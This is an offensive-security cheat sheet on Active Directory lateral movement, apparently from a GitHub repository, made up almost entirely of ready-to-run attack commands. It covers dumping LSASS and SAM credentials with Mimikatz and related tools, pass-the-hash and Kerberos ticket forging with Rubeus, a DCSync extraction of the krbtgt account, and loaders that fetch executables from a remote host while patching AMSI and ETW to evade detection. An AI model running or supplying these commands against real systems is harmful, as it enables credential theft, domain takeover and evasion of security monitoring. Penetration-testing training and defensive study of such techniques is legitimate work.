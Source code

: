 # Lateral Movement
* [General](#General)
* [Dumping LSASS](#Dumping-LSASS)
* [Overpass The Hash](#Overpass-The-Hash)
* [DC-Sync](#DC-Sync)
* [Offensive .NET](#Offensive-.NET)
* [Mimikatz](#Mimikatz) 
* [Check Local Admin Access](#Check-Local-Admin-Access)  

## General
#### Connect to machine with administrator privs
```
Enter-PSSession -Computername <COMPUTERNAME>
$sess = New-PSSession -Computername <COMPUTERNAME>
Enter-PSSession $sess
```

#### Execute commands on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -Scriptblock {<COMMAND>} 
Invoke-Command -Scriptblock {<COMMAND>} $sess
```

#### Load script on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -FilePath <PATH>
Invoke-Command -FilePath <PATH> $sess
```

#### Execute locally loaded function on a list of remote machines
```
Invoke-Command -Scriptblock ${function:<function>} -Computername (Get-Content computers.txt)
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content computers.txt)
```

#### Runas other user
```
runas /netonly /user:<DOMAIN>\<USER> cmd.exe
runas /netonly /user:<DOMAIN>\<USER> powershell.exe
```

## Dumping LSASS
#### Dump credentials on a local machine using Mimikatz.
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
```

#### Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
```
SafetyKatz.exe "sekurlsa::ekeys"
```

#### Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
```
SharpKatz.exe --Command ekeys
```

#### Dump credentials using Dumpert (Direct System Calls and API unhooking)
```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

#### Using pypykatz (Mimikatz functionality in Python)
```
pypykatz.exe live lsa
```

#### Using comsvcs.dll
```
tasklist /FI "IMAGENAME eq lsass.exe" 
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <LSASS PROCESS ID> C:\Users\Public\lsass.dmp full
```

#### From a Linux attacking machine using impacket.


#### From a Linux attacking machine using Physmem2profit

## Overpass The Hash
- Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs elevation (Run as administrator)

#### Mimikatz
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:powershell.exe"'
```

#### SafetyKatz
```
SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:cmd.exe" "exit" 
```

#### Rubeus
- Below doesn't need elevation
```
Rubeus.exe asktgt /user:<USER> /rc4:<NTLM HASH> /ptt
```

- Below command needs elevation
```
Rubeus.exe asktgt /user:<USER> /aes256:<AES256KEYS> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## DC Sync
- Extract creds from the DC without code execution using DA privileges.

#### Mimikatz DCSync attack
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

#### Safetykatz.exe
```
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

## Offensive .NET
- https://github.com/Flangvik/NetLoader
- Load binary from filepath or URL and patch AMSI & ETW while executing
```
C:\Users\Public\Loader.exe -path http://xx.xx.xx.xx/something.exe
```

#### Use custom exe Assembyload to run netloader in memory and then load binary
```
C:\Users\Public\AssemblyLoad.exe http://xx.xx.xx.xx/Loader.exe -path http://xx.xx.xx.xx/something.exe
```

## Mimikatz
#### Mimikatz dump credentials on local machine
```
Invoke-Mimikatz -Dumpcreds
```

#### Mimikatz dump credentials on multiple remote machines
```
Invoke-Mimikatz -Dumpcreds -ComputerName @("<COMPUTERNAME 1>","<COMPUTERNAME2>")
```

#### Mimikatz dump SAM
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

or

```
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv
#Start mimikatz as administrator
privilege::debug
token::elevate
lsadump::sam SamBkup.hiv SystemBkup.hiv
```

#### Mimikatz dump lsa (krbtgt to)
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## Check Local Admin Access
#### Powerview
```
Find-LocalAdminAccess -Verbose
```

### Other scripts
```
. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```

```
. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

